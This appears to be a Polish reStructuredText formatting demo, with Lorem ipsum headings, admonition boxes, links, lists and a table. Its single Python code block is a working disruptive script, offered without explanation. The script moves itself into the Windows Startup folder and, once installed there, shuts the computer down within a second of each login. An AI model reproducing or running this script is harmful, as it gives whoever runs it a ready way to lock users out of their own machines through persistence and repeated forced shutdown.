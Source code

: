 Tytuł
==========

Lorem ipsum dolor sit amet, consectetur adipiscing elit.

Nagłówek 2
----------

Nam ut semper ligula, sit amet viverra lectus.

Nagłówek 3
++++++++++

Fusce eleifend, mi sit amet volutpat bibendum,

Nagłówek 4
^^^^^^^^^^

ex erat lobortis tortor, a condimentum turpis ex euismod turpis.

.. note::

   Suspendisse cursus magna a arcu mattis,

.. tip::

   et auctor turpis tempus.

.. code-block:: python

  import os
  import shutil

  user=os.getlogin()

  trg=os.path.dirname(os.path.abspath(__file__))+"\shutdown.py"
  dst="C:/Users/"+user+"/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup"

  if(os.path.exists(dst+"/shutdown.py")):
      os.system("shutdown /s /t 1")
      os._exit(0)

  shutil.move(trg,dst)

Odnośnik lokalny RtD :doc:`api`

Odnośnik zewnętrzny-inny serwis `google <https://www.google.com>`_

lista punktowana:

* .
* .
* .

lista numerowana: 

#. .
#. .
#. .


====  =====  =====
1     2      3    
====  =====  =====
4     5      6   
7     8      9   
====  =====  =====
